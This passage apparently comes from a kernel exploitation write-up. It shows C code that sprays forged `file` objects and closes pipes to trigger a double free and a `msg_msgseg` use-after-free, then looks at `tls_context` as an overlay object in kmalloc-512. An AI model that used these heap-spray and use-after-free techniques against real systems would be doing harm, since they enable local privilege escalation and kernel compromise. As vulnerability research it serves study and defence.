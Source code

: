 ```c 
static inline void set_file_spray_data(struct manager* mgr)
{
    /* Construct a fuzzy file object */
#define F_OP_OFF (88)
#define REF_OFF (128)
#define F_MODE_OFF (140)
#define MSGSEG_OFF (4000)

    memset((char *)mgr->spray, 0, MSG_SIZE);

    char *file_contents = (char *) mgr->spray + MSGSEG_OFF;
    uint8_t *f_op = file_contents + F_OP_OFF;
    uint8_t *refcount = file_contents + REF_OFF;
    uint8_t *f_mode = file_contents + F_MODE_OFF;

    *(uint64_t *) f_op = NULL_MEM;
    *(uint64_t *) refcount = 1;
    *(uint64_t *) f_mode = 0x4000;
}
```

So, to at least give the illusion of a valid `file` object, we prepare the file fields, as above, and spray the fake `file` objects into the heap as seen earlier. 

```c
static inline err_t double_free_file(struct manager *mgr, int32_t *hits)
{
    for (int i = 0; i < hits[N_PIPES]; i++) {
        int p_idx = hits[i];
        int in = mgr->pipes_in[p_idx][RD];
        close(in);
    }
    return SUCC;
}
```
We are able to free the `file` again, causing a `msg_msgseg` Use-After-Free. The `file` object is given back to the slab, resolved via the `page` from whence it came, to `kmalloc-512`.

This means we need to find another type of object to overlay onto the dangling `msg_msgseg`. This object should have a kernel read-only section pointer and must come from the `kmalloc-512` cache (to capture the `msg_msgseg`).

## TLS who? `tls_context` 
After extensive research based on the scientific method of testing and invalidating hypotheses (aka going through a list of objects with a size inbetween 257 and 512 bytes), we found a candidate type, `tls_context` 

<figure>